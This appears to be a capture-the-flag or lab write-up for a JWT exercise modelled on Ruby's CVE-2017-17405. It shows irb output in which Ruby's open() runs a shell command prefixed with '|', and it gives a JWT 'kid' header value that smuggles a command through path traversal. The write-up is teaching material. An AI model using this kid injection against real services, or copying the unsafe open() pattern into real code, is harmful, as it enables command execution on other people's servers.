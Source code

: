 # JWT similar to CVE-2017-17405

Inspired by the recent vulnerability in the Ruby library Net::FTP in CVE-2017-17405

### Vulnerability

The issue impacting the Net::FTP library as well as this application lies in the difference between a call to: 

```ruby
File.open(....)
```

and:

```ruby
open(...)
```

While the former allows an attacker with control over the first argument to read arbitrary files. The latter allows you to run command (by using a `|` before the command):

```bash
$ irb
irb(main):001:0> File.open("|/usr/bin/uname").read()
Traceback (most recent call last):
        6: from /usr/bin/irb:23:in `<main>'
        5: from /usr/bin/irb:23:in `load'
        4: from /usr/lib/ruby/gems/2.7.0/gems/irb-1.2.3/exe/irb:11:in `<top (required)>'
        3: from (irb):1
        2: from (irb):1:in `open'
        1: from (irb):1:in `initialize'
Errno::ENOENT (No such file or directory @ rb_sysopen - |/usr/bin/uname)
irb(main):002:0> open("|/usr/bin/uname").read()
=> "Linux\n"
irb(main):003:0> open("|/usr/bin/uname -a").read()
=> "Linux kali 5.5.0-kali2-amd64 #1 SMP Debian 5.5.17-1kali1 (2020-04-21) x86_64 GNU/Linux\n"
```

We have to do the same in jwt kid parameter:

`"kid":"|../../../../../../../../usr/local/bin/score c6ff9c86-7094-459f-8d08-41d717b9e508`

**Since the signature is checked after the vulnerability is exploited, you don't need to provide a valid signature in this exercise.**




